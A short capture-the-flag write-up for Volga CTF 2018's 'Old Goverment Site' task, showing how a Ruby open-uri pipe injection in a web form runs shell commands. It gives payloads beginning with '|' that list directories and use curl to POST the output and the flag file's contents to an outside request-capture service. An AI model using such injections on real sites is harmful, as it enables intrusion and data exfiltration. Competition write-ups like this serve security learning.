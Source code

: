 ## Volga CTF 2018 - Old Goverment Site

1. Pay attention to pages url - *http://old-government-site.quals.2018.volgactf.ru:8080/page?id=33*
2. Let`s use brutefors for a while
3. Page with number 18 looks intesting..

It`s validation form for a garbage cleaning company.

Site working on Sinatra Framework (Ruby)

4. Do you hear something about Ruby Open-Uri vulnerability?

[Read this](https://habrahabr.ru/post/251823/)


5. Try to type *|ls /*
6. It`s works!
7. Now we need a something service to get POST request from server.

For example, [pustreq](https://putsreq.com/)

8. It`s looks intresting... 

```bash
|curl -d "$(ls -l /)" -X POST https://putsreq.com/your-application/
```

We have a file called **flag**

9. Finally...

```bash
|curl -d "$(cat flag)" -X POST https://putsreq.com/your-application/
```

10. Congratulations!

